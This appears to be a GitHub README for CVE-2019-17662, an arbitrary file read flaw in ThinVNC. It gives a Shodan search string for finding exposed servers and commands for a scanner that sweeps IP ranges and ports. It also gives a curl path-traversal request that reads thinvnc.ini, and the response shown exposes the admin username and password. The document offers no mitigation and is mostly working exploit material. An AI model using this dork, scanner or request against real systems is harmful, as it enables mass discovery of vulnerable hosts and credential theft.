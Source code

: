 ## CVE-2019-17662
![](https://img.shields.io/static/v1?label=Product&message=ThinVNC&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=1.0b1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Arbitrary%20File%20Read&color=red)


- Shodan dork:
```
"ThinVNC"
```
or
```
pip install argparse colorama
```
```
python scanner.py ip_cidr_list_file 80 -o results.txt
```
```
python scanner.py ip_cidr_list_file 80, 8080-8090 -o results.txt
```
```
python scanner.py 192.168.1.1/24 80,8080-8090 -o results.txt
```
- POC:
```
curl -k -X 'GET' "http://target_ip_address:port/a/\../\../thinvnc.ini"
	  
Response:
[Authentication]
Unicode=0
User=admin
Password=admin
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1
```
